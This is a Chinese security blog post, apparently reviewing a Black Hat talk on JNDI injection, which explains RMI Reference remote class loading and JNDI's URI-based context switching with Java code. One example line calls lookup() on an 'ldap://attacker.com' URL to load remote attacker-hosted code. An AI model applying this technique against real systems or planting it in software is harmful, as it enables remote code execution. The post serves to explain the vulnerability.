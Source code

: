 ```java
Reference refObj = new Reference("refClassName", "insClassName", "http://example.com:12345/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

当有客户端通过 `lookup("refObj")` 获取远程对象时，获得到一个 Reference 类的存根，由于获取的是一个 Reference 实例，客户端会首先去本地的 `CLASSPATH` 去寻找被标识为 `refClassName` 的类，如果本地未找到，则会去请求 `http://example.com:12345/refClassName.class` 动态加载 classes 并调用 `insClassName` 的构造函数。

借用官方的流程图：

![]({{ site.url }}/public/img/article/2016-08-19-jndi-injection-from-theory-to-apply-blackhat-review/4.png)

这里说明了在获取 RMI 远程对象时，可以动态地加载外部代码进行对象类型实例化，而 JNDI 同样具有访问 RMI 运城对象的能力，只要其查找参数即 `lookup()` 函数的参数值可控，那么就有可能促使程序去加载和自信部署在攻击者服务器上的恶意代码。

### 0x02 JNDI 协议动态转换

前面简单的用代码和图例说明了 JNDI 的应用方式和 RMI 中的动态字节代码加载，在初始化配置 JNDI 设置时可以预先指定其上下文环境（RMI、LDAP 或者 CORBA 等）：

```java
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY,
        "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,
        "rmi://localhost:1099");
Context ctx = new InitialContext(env);
```

而在调用 `lookup()` 或者 `search()` 时，可以使用带 URI 动态的转换上下文环境，例如上面已经设置了当前上下文会访问 RMI 服务，那么可以直接使用 LDAP 的 URI 格式去转换上下文环境访问 LDAP 服务上的绑定对象：

```java
ctx.lookup("ldap://attacker.com:12345/ou=foo,dc=foobar,dc=com");
```

在议题所提供的 Write-Up 里有提供详细远离的代码来说明为什么可以使用绝对路径 URI 去动态地转换上下文环境：

```java
public Object lookup(String name) throws NamingException {
    return getURLOrDefaultInitCtx(name).lookup(name);
}
```

`getURLOrDefaultInitCtx()` 函数的具体代码实现为：

```java
protected Context getURLOrDefaultInitCtx(Name paramName) throws NamingException {
    if (NamingManager.hasInitialContextFactoryBuilder()) {
        return getDefaultInitCtx(); 
    }
    if (paramName.size() > 0) {
        String str1 = paramName.get(0);
        String str2 = getURLScheme(str1);  // 尝试解析 URI 中的协议
        if (str2 != null) {
            // 如果存在 Schema 协议，则尝试获取其对应的上下文环境
            Context localContext = NamingManager.getURLContext(str2, this.myProps);
            if (localContext != null) { 
                return localContext;
            }
        }  
    }
    return getDefaultInitCtx();
}
```
